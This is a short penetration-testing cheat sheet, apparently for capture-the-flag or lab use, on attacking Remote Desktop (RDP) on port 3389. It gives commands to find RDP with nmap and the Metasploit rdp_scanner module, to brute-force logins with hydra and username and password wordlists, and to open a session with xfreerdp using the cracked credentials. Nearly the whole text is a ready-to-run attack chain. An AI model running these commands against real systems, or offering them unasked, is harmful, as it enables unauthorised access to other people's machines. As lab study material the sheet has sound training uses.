 
Default Port: 3389


FINDING PORT RUNNING RDP

nmap TARGET IP

msfconsole
search rdp
auxiliary/scanner/rdp/rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
show options
set RHOSTS **TARGET IP**
set RPORT "port found on nmap"
exploit or run

BRUTE FORCE RDP

Example: hydra IP -L "Usernames Wordlist" -P "Passwords Wordlist"

Practical Example: 
hydra IP -L "/usr/share/wordlists/users.txt" -P "/usr/share/wordlists/passwords.txt" rdp://TARGET IP -s PORT

Always take note of users and password with successful connection

XFREERDP TO CREATE SESSION
xfreerdp /u:administrator /p:Password /v:IP:PORT
xfreerdp /u:admin /p:password /cert:ignore /v:IP:PORT /workarea

Type Y to confirm connection and search for the flag (if there is any)

############################################################

